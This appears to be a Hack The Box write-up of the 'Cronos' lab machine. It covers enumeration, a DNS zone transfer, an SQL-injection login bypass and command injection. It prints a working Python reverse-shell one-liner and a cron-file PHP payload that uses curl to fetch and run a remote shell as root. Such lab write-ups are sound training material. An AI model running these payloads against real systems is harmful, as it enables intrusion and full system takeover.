 ```yaml
---
layout: post
title: HTB - Cronos Writeup
date: 2019-10-03
image: '/images/posts/htb/cronos/cronos.jpg'
categories: ["writeups"]
tags: ["writeups", "cronos", "htb"]
---
```


* Box: Cronos
  - Difficulty: Medium
  - Points: 30
  - Release: 22 Mar 2017
  - IP: 10.10.10.13


### Initial Enumeration

#### 1. Nmap Scanning

Starting with a scan of the target ip address:

`nmap -sC -sV -oA cronos.nmap 10.10.10.13`

<img src="/images/posts/htb/cronos/cronos1.jpg">

We see ports 22,53,80 open. First off let's load up the browser and take a look.

We see a default Apache2 page like this:

<img src="/images/posts/htb/cronos/cronos2.jpg">

Let's try and find some directories using GoBuster:

``gobuster dir -u http://10.10.10.13/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -k``

<img src="/images/posts/htb/cronos/cronos3.jpg">

No results for the GoBuster. In the port scan we saw DNS open so let's nslookup and see what we can find out about the server.

<img src="/images/posts/htb/cronos/cronos4.jpg">

We got a domain, **cronos.htb**
We'll go ahead and add that into our hosts file and browse to it.

<img src="/images/posts/htb/cronos/cronos5.jpg">

<img src="/images/posts/htb/cronos/cronos6.jpg">

Running the GoBuster scan again for **cronos.htb** we see the "**robots.txt**" file is available but there is nothing of substance available.

<img src="/images/posts/htb/cronos/cronos7.jpg">

Let's try a zone transfer since port 53 is open and see if we can get any more information:

<img src="/images/posts/htb/cronos/cronos8.jpg">

The **admin.cronos.htb** looks interesting so let's add that into our hosts file as well so we can browse to it.

<img src="/images/posts/htb/cronos/cronos8.jpg">

<img src="/images/posts/htb/cronos/cronos9.jpg">

Nice! We got a login page, let's test a bypass using SQL injection.

``admin' or '1'='1``

Using the following [Pentest Blog Cheat Sheet](https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/)

<img src="/images/posts/htb/cronos/cronos10.jpg">

We got a **Net Tool v0.1** page. Perhaps this is also vulnerable to command injection?

Looks like it!

<img src="/images/posts/htb/cronos/cronos11.jpg">

Now that we confirmed command injection, we can simply use the below command to get a reverse shell in python.

I used [this](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) cheat sheet from PentestMonkey.

``python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.57",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'``

<img src="/images/posts/htb/cronos/cronos12.jpg">

We can look at our listener and confirm we got a shell.

Next we need to escalate our privileges.

### Privilege Escalation

After investigating the machine we don't have much luck enumerating.

Based on the name of this box, we take a look at **/etc/crontab**. Here we see something of interest:

<img src="/images/posts/htb/cronos/cronos13.jpg">

The last line there indicates a file named **artisan** is being executed by **root**.

<img src="/images/posts/htb/cronos/cronos14.jpg">

Pulling up the permissions for artisan shows our user has access to edit the file.
So let's simply make a script to have the server download a php reverse shell from my host and pipe it into php to execute.

<img src="/images/posts/htb/cronos/cronos15.jpg">

I used the following [PentestMonkey](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) shell.

``<?php
system('curl http://10.10.14.57/reverse.php | php')
?>``

<img src="/images/posts/htb/cronos/cronos16.jpg">

Let's setup a web server locally and also ensure we have a listener ready to capture the shell.

<img src="/images/posts/htb/cronos/cronos17.jpg">

Wait a minute or so and the cronjob will execute the **artisan** file and we can see the nc listener now has a shell.

It isn't a full interactive shell but using the following post we can make it one:

[https://forum.hackthebox.eu/discussion/142/obtaining-a-fully-interactive-shell](https://forum.hackthebox.eu/discussion/142/obtaining-a-fully-interactive-shell)

We can find the root flag in /root/root.txt and the user flag at /home/noulis/user.txt.

<img src="/images/posts/htb/cronos/cronos18.jpg">
